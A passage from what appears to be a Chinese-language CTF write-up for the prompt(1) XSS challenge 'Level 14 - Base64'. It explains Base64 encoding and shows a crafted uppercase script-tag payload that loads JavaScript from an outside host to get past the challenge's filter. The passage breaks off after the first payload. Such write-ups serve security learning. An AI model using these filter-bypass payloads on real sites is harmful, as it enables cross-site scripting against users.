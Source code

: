 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/03.png)

但是用 FireFox 浏览器则可以解析并执行了 JS 代码：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/04.png)

由此决定了，**这个挑战只能通过 FireFox 浏览器去做**。

------------


### Base64 编码原理

剩下的问题是，怎么令到被转换成全大写的 Base64 编码，可以被解码成原本的 JS 代码 ？

其实答案也很简单：

构造一个 JS 代码，其功能是实现 `prompt(1)` 执行，且经过 Base64 编码后，是全大写字母。

------------


严格来说，其实不需要全大写， Base64 编码的字符范围是 `a-z`、 `A-Z`、 `0-9`、 `/`、 `+`、 `=` 。

而在本题中，只有 `a-z` （被转换成 `A-Z` ）和 `+` （被转换成 `_` ）是不能用的。

那么我们只需要所构造的 JS 代码经过 Base64 编码后只含有 `A-Z`、 `0-9`、 `/`、 `=` 范围内内的字符，就可以令题目中把 Base64 编码转换成大写的逻辑就没有任何作用了。


------------

而要构造这么一个 Base64 编码，就需要先了解其编码原理。

详细可以参看这篇文章 《[Base64编码原理](https://blog.csdn.net/rj042/article/details/48733257)》 ，说得很清楚。

大致意思就是：Base64 编码的时候，被编码的字符串会顺序以每 3 个字符为一组，每一组根据固定的映射表编码成 4 个字符。换言之，连续的 3 个字符直接影响了这个局部区域编码后的结果，相隔太远的字符是无法对这个区域造成干涉的。

那么要构造一个编码后不存在  `a-z` 和  `+` 的 JS 字符串是完全有可能的。

------------


### 构造 Base64 编码

这部分就需要漫长的耐心了去试错了（有兴趣的同学可以根据 Base64 编码原理自己写算法实现），我用了几个小时构造了 2 个满足条件的 JS 代码。

这两个 JS 代码会执行 `prompt(1)` 功能，Base64 编码后不存在  `a-z` 和  `+` 字符。

先来看看这两个 JS 是什么样的，再分析。

------------

第一个 JS 代码是这样的（注意一个空格、一个换行都不能错）：

```javascript
  <SCRIPT /
SRC  
= 
  
HTTPS:XSS%2E%54%46/TOH>
</SCRIPT
 >
```
